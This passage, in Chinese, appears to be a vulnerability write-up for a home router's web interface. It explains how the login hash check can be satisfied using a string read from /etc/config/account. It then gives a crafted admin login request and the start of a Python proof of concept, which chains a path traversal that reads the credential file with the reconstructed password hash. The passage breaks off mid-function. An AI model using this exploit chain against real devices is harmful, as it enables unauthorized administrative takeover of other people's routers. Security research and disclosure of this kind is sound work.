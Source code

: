 跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

`checkUser`函数判断等式为 (encStr 为参数 oldPwd)

```
sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
==
sha1(nonce + accountStr)

```

则

```
accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')

```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248

```

实现任意登陆 poc

arbitrary_file_read_vulnerability.py

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES


proxies = {}

def get_mac():
    
    r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
    mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
    
    return mac

def get_account_str():
    
    r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
    print(r1.text)
    account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
    return account_str

def create_nonce(mac):
    type_ = 0
    deviceId = mac
    time_ = int(time.time())
    rand = random.randint(0,10000)
    return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
    m = hashlib.sha1()
```